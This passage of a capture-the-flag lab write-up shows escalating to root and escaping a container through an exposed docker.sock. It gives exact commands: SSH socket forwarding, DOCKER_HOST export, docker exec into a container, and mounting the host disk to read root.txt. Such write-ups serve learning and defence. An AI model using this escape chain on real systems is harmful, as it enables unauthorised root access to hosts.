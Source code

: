 privilege escalation and container escape. If we use this 

technique we bypass the need for the above curl 

commands. I included this to show the process I went 

through and also to show how dangerous it is to expose 

the docker.sock daemon. Using curl commands we were 

able to read files that were restricted by access 

permissions and reinforces the need to understand the 

various ways privilege escalation can be accomplished 

by attackers.


##### Commands to forward the docker.sock daemon over our local host to interact with the container using docker commands
1. Forwarded the /var/run/docker.sock over ssh to localhost and ran the below docker command to gain root. Here is the syntax for the ssh command:
`  ssh -nNT -L localhost:2345:/var/run/docker.sock uzJk6Ry98d8C@10.10.10.127 -p 2222  `

2. You then need to export the host to another terminal:
`  export DOCKER_HOST=tcp://127.0.0.1:2345  `

3. Once you have access to the docker daemon via terminal on your machine run this command: `  docker exec -it 7b884dffa6ae bash  `

4. Once you have root on container run the following commands to break out of the container by mounting the host systems file structure:
`  mkdir -p /mnt/hola  `
`  mount /dev/xvda1 /mnt/hola  `

5. Host file system is now mounted, cd to root and cat open the root.txt.

6.  Important links: https://dejandayoff.com/the-danger-of-exposing-docker.sock/ && https://blog.natem135.com/posts/thm-sweet-tooth-inc/
